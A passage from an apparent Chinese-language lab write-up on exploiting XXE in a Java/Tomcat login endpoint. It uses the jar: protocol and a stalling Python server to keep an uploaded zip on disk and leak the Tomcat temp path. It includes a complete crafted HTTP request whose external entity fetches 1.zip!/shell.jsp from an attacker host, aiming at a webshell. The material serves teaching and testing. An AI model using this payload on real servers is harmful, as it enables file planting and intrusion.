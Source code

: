 ```python
    server_thread.start() 
    server_thread.join()
```
脚本先发送文件的除最后一个字符的所有内容，相隔30s再发送最后一个字符。<br />之后准备需要上传的文件，这里以一个xml文本为例<br />![截屏2021-06-22 上午12.34.29.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624293288643-a7ce7a81-aa5d-4151-bcb0-2115d5930e90.png#align=left&display=inline&height=1748&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%8812.34.29.png&originHeight=1748&originWidth=2504&size=1840546&status=done&style=none&width=2504)<br />将这个xml文本打包成zip文件，命名为1.zip<br />![截屏2021-06-22 上午12.37.44.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624293478345-055c7d85-e13d-4997-937b-078881e76878.png#align=left&display=inline&height=218&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%8812.37.44.png&originHeight=426&originWidth=818&size=148918&status=done&style=none&width=418)<br />对这个1.zip进行16进制编辑，在文件的末尾加一些废数据（目的是，上面的python脚本发送的文件不包括最后一个字符，而加上这些废数据后，这些废数据就会被当作最后一个字符舍弃，只读取文件前面正确的数据。）<br />![截屏2021-06-22 上午12.47.54.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624294354644-6ae662db-9e83-4a76-8373-fea95b820e90.png#align=left&display=inline&height=438&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%8812.47.54.png&originHeight=958&originWidth=1314&size=536620&status=done&style=none&width=601)<br />然后在kali主机的1.zip所在目录运行前面所说的python脚本，启动监听<br />![截屏2021-06-22 上午1.06.41.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624295235350-e3a78c1f-a0eb-4e93-86cf-bac1f656e54e.png#align=left&display=inline&height=87&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%881.06.41.png&originHeight=170&originWidth=720&size=54196&status=done&style=none&width=368)<br />**在本机（mac）使用如下操作**<br />之后打开burp，抓取发送到目标服务器的包<br />![截屏2021-06-22 上午12.58.06.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624294727991-b45b8651-71f2-4126-8355-7ab41baa88b3.png#align=left&display=inline&height=1762&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%8812.58.06.png&originHeight=1762&originWidth=2696&size=482409&status=done&style=none&width=2696)<br />改包，将数据包改为如下内容并发送
```xml
POST /XXE/doLogin HTTP/1.1
Host: 192.168.43.231:8080
Content-Length: 203
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.43.231:8080
Referer: http://192.168.43.231:8080/XXE/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE user[
<!ENTITY baz SYSTEM "jar:http://192.168.43.147:9999/1.zip!/shell.jsp">
]>
<user><username>admin&baz;</username><password>admin</password></user>
```
可以看到kali处已经收到了请求<br />![截屏2021-06-22 上午1.10.53.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624295520460-7e0aa79c-3ddb-40ac-a7b8-6caae2690035.png#align=left&display=inline&height=181&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%881.10.53.png&originHeight=394&originWidth=986&size=159705&status=done&style=none&width=454)<br />等待30s后（前面python脚本的原因），收到回复包，在回复包中，我们得到了目标服务器的目录<br />![截屏2021-06-22 上午1.13.31.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624295669779-36fcaa86-1d0e-49dc-9f68-5bda2a9afefc.png#align=left&display=inline&height=1762&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-22%20%E4%B8%8A%E5%8D%881.13.31.png&originHeight=1762&originWidth=2696&size=713365&status=done&style=none&width=2696)<br />其中 jar_cache1237144420571861472.tmp 文件即我们所上传的1.zip文件，根据jar的原理，tomcat在收到1.zip后，则将其变成tmp后缀（是的，只是改了下后缀），之后再将tmp文件解压，然后得到里面的内容，然后迅速将tmp文件删除。但这里我们在路径中写了一个不存在的 shell.jsp ,所以tomcat找不到，并且报错（向我们传递了tomcat目录）。并且最重要的是，由于我们的python脚本在文件发送过程中停止了30s，所以此tmp文件在tomcat关闭之前并不会被删除，由此，我们的文件上处成功。
